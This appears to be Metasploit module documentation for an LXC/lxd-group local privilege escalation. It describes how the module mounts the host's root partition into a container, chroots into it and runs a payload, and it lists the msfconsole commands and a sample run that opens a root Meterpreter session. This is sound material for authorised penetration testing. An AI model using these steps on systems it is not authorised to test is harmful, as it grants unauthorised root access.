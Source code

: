 ## Vulnerable Application

LXC Local Privilege Escalation exploiting that anyone with control over LXC such as those in the `lxd` group can mount the root partition inside of a container.

Both meterpreter shell and classic shell are supported. The exploit will use LXC to create a container and then add a device to the container that mounts the hosts root partition at `/mnt/root`, it then chroots into this directory and executes the specified `payload`.

# Creating A Testing Environment

- Install LXC
- Add a non-root user to the `lxd` group
- Download an image so that there is one available locally
- Obtain a shell on the host system as this non-root user
- Use this exploit to obtain a root shell

## Verification Steps

1. `use exploit/linux/local/lxc_privilege_escation`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## BaseImage

The base image to use when creating the exploit container. If not specified the first image found will be used. The only requirements are that the image is available locally (already downloaded) and we can use the chroot command, which should be close to 100% of containers.

## ForceExploit

Force exploit even if the current session is root.

## WritableDir

A directory where we can write files (default is /tmp). This is needed to drop the payload into the container.

# Scenarios

## Privilege escalation starting with a meterpreter shell

```
msf5 exploit(multi/handler) > use exploit/linux/local/lxc_privilege_escalation
msf5 exploit(linux/local/lxc_privilege_escalation) > set session 3
session => 3
msf5 exploit(linux/local/lxc_privilege_escalation) > run

[+] LXC is accessible, and there is at least one local image we can use to create a container
[*] Using base image 306c66cc1a40
[*] Writing payload executable to '/tmp/nkoGWxrsq'
[!] Creating container named fPjLQFNNC, remember to delete this after exploitation
[!] Using: lxc stop fPjLQFNNC && lxc delete fPjLQFNNC
[*] Executing script to create and run LXC container
[*] Creating container
[*] Adding mount to container
[*] Starting container
[*] Executing payload inside container

[*] Started bind TCP handler against 192.168.0.231:4444
[*] Sending stage (3012516 bytes) to 192.168.0.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 192.168.0.231:4444) at 2020-07-19 14:50:51 +0100
```
